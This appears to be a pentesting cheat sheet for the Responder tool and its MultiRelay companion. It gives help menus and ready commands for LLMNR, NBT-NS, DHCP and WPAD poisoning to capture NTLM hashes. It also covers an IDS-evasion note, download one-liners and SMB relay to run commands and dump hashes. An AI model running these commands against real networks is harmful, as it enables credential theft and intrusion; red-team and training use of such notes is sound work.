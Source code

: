 # Usage

Search Tag(s): #mitm #responder #smb #relay #ntlm

## 01 - Responder

### 1.1 - Help Menu

```
$ responder -h  
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -d
or:
responder -I eth0 -wd

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -6 2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed, --externalip6=2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed
                        Poison all requests with another IPv6 address than
                        Responder's one.
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -d, --DHCP            Enable answers for DHCP broadcast requests. This
                        option will inject a WPAD server in the DHCP response.
                        Default: False
  -D, --DHCP-DNS        This option will inject a DNS server in the DHCP
                        response, otherwise a WPAD server will be added.
                        Default: False
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  --disable-ess         Force ESS downgrade. Default: False
  -v, --verbose         Increase verbosity.
```

### 1.2 - Basics

#### 1.2.1 - LLMNR

- **NBT-NS and LLMNR Poisoning via capturing NTLMv2-SSP hashes**

`$ sudo responder -I <interface> -rdwv`

- **LLMNR Poisoning**

`$ sudo responder -I eth0 --lm -v`

#### 1.2.2 - DHCP

- **DHCP and WPAD poisoning**

When a windows host requires a new IP address dynamically it can perform HTTP WPAD poisoning response while the user uses a web browser that contains auto proxy settings enabled

`$ sudo responder -I <interface> -Pdwv`

#### 1.2.3 - WebDAV

- **Block SMB traffic on the attacker's machine to poison NTLMv2-SSP responses via WebDAV/HTTP**

Note: You don't have to block the ports unless you're evading some IDS to identify you for performing MITM poisoning

```
$ sudo iptables -A INPUT -p udp --dport 137 -j DROP
$ sudo iptables -A INPUT -p udp --dport 138 -j DROP
$ sudo iptables -A INPUT -p tcp --dport 139 -j DROP
$ sudo iptables -A INPUT -p tcp --dport 445 -j DROP
```

`$ sudo responder -I eth1 -Pdv`

`C:\> certutil -urlcache -split -f https://google.com file.txt`

`PS C:\> Invoke-WebRequest -Uri https://google.com -OutFile file.txt`

## 02 - MultiRelay

TODO: Fill this info

### 2.1 - Compile Binaries

```
$ cd /usr/share/responder/tools/ &&
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv && \
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode
```

### 2.2 - Help Menu

```
$ ./MultiRelay.py -h
Usage: 
responder-MultiRelay -t 10.20.30.40 -u Administrator lgandx admin
responder-MultiRelay -t 10.20.30.40 -u ALL

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -t 10.20.30.45        Target server for SMB relay.
  -p 8081               Additional port to listen on, this will relay for
                        proxy, http and webdav incoming packets.
  -u, --UserToRelay     Users to relay. Use '-u ALL' to relay all users.
  -c whoami, --command=whoami
                        Single command to run (scripting)
  -d, --dump            Dump hashes (scripting)
```

### 2.3 - Usage

`$ sudo MultiRelay.py -t <target_IP> -u <username_1> <username_2> <username_n>`

---
## References

- [Responder](https://github.com/lgandx/Responder)

- [Hacktricks: Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks)

- [Responders DHCP Poisoner](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)

- [Understanding UNC Paths SMB And WebDAV](https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/)

- [The Dangers of Endpoint Discovery in Vipre Endpoint Security](https://www.n00py.io/2020/12/the-dangers-of-endpoint-discovery-in-vipre-endpoint-security/)

- [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

- [Using A SCF File to Gather Hashes](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/)

- [DMCXBLUE: Capturing Hashes](https://dmcxblue.net/2020/06/17/capturing-hashes/)

- [SMB HTTP Auth Capture va SCF](https://room362.com/post/2016/smb-http-auth-capture-via-scf/)

- [A Detailed Guide on Responder LLMNR Poisoning](https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/)